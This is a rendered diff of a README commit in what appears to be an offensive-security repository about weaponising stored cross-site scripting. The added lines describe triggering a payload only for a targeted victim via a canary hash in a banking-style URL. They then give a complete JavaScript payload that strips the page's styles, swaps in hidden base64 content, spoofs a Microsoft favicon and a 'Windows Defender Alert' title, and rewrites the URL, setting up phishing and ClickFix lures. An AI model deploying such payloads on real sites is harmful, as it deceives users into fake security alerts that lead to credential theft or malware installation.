

Before and after one commit to dhmosfunk/lauraops07-xss-at-its-finest, a Markdown page: README.md, the part around the change printed below. Shown: that part at 88% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
add stored xss

````diff
--- a/README.md
+++ b/README.md
@@ -120,7 +120,12 @@ The vulnerable application already has its CSS styles and DOM content loaded (in
 Weaponizing Stored XSS - Persistent. This type of XSS occurs when user input is stored on target server e.g. database and requires no the user interaction to trigger the javascript code.
 
 ### II - Payload Delivery
+In reflected XSS, the attacker needs to send the victim a file or a link containing the payload to trigger the attack. With stored XSS, it's even simpler the victim just needs to visit a specific page. However, in order to not "brake" the whole page we need a way to identify the targeted user using a canary hash. For example:
+```url
+https://client.bank.com/?b01829f1f013fe3bf52f026d6e053a7a
+```
 
+Using the above we can create a simple statement. If the canary exists in URL then trigger the javascript if not do nothing. e.g.
 
 ```javascript
 if (window.location.search.replace("?","") === "b01829f1f013fe3bf52f026d6e053a7a"){
@@ -130,8 +135,27 @@ if (window.location.search.replace("?","") === "b01829f1f013fe3bf52f026d6e053a7a
 }
 ```
 
+Final payload should look like this:
+```javascript
+if (window.location.search.replace("?","") === "b01829f1f013fe3bf52f026d6e053a7a"){
+    [...document.querySelectorAll('link[rel="stylesheet"]')].map(l => l.remove());
+
+    document.body.innerHTML=atob("<base64>data.");
+
+    (document.querySelector("link[rel~='icon']") || Object.assign(document.head.appendChild(document.createElement('link')), {rel:'icon'})).href = 'https://www.microsoft.com/favicon.ico?v2';
+
+    document.getElementsByTagName('title')[0].innerHTML = 'Windows Defender Alert';
+
+    history.replaceState(null, null, '../../../alert');
+} else {}
+```
+
 ### II - Phishing
+
+![phishing](assets/iiphishing.gif)
 
 ### II - Clickfix
 
+![clickfix](assets/iiclickfix.gif)
+
 ### II - HTML Smuggling
````
Also changed, not shown: other parts of README.md (+4 -2 lines).
